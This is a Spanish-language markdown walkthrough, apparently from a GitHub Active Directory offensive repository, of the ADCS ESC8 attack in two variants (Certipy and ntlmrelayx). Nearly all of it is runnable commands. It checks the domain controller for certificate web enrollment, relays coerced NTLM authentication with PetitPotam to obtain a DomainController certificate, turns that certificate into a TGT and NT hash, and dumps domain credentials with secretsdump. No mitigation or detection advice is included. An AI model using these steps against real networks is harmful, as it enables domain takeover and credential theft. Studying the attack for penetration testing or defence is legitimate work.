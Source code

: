 # ADCS ESC8 Certipy

Aprovechando una vulnerabilidad en la inscripción web del ADCS

```Bash
# Identificar si el ADCS está configurado en el DC
openssl s_client -connect <Nombre DNS del DC>:636
# Comprobar que la inscripción web está configurada desde el navegador
http://<ip DC>/certsrv/certfnsh.asp
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/adcs_ESC8/files/esc81.png?raw=true "find adcs")
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/adcs_ESC8/files/esc82.png?raw=true "check web")

Ejecutando el ataque:

```Bash
# A la escucha del certificado
certipy relay -target <ip target> -ca <ip target> -template DomainController
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/adcs_ESC8/files/esc83.png?raw=true "get cert")

```Bash
# Coaccionando con PetitPotam
petitpotam.py <ip atacante> <Nombre DNS del DC>
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/adcs_ESC8/files/esc84.png?raw=true "coerce petitpotam")

```Bash
# Obteniendo el NT hash y el TGT
certipy auth -pfx <fichero.pfx> -dc-ip <ip del DC> 
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/adcs_ESC8/files/esc85.png?raw=true "get nt and TGT")

```Bash
# Utilizando el TGT y obteniendo credeciales del domino
export KRB5CCNAME=<ticket.ccache>
secretsdump -k -no-pass <DOMAIN>/'<user>'@<Nombre DNS del DC>

# Utilizando el hash y obteniendo credeciales del domino
secretsdump -hashes ':<Hash NT>' -no-pass <DOMAIN>/'<user>'@<Nombre DNS del DC>
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/adcs_ESC8/files/esc86.png?raw=true "get creds TGT")
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/adcs_ESC8/files/esc87.png?raw=true "get creds NT")



# ADCS ESC8 ntlmrelayx

```Bash
# Identificar si el ADCS está configurado en el DC
openssl s_client -connect <Nombre DNS del DC>:636
# Comprobar que la inscripción web está configurada desde el navegador
http://<ip DC>/certsrv/certfnsh.asp
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/adcs_ESC8/files/esc81.png?raw=true "find adcs")
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/adcs_ESC8/files/esc82.png?raw=true "check web")
Ejecutando el ataque:

```Bash
# A la escucha del certificado
ntlmrelayx.py -t http://<ip target>/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/adcs_ESC8/files/esc88.png?raw=true "get certificates")
```Bash
# Coaccionando con PetitPotam
petitpotam.py <ip atacante> <Nombre DNS del DC>
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/adcs_ESC8/files/esc84.png?raw=true "coerce petitpotam")
```Bash
# Guardamos el base64 obtenido del ntlmrelax en el fichero "cert.b64"
# Obteniendo el TGT
gettgtpkinit.py -pfx-base64 $(cat cert.b64) '<DOMAIN>'/'<user>' '<nombre ticket>.ccache'
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/adcs_ESC8/files/esc89.png?raw=true "get TGT")
```Bash
# Utilizando el TGT y obteniendo credeciales del domino
export KRB5CCNAME=<nombre ticket>.ccache
secretsdump -k -no-pass <DOMAIN>/'<user>'@<Nombre DNS del DC>
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/adcs_ESC8/files/esc86.png?raw=true "get creds TGT")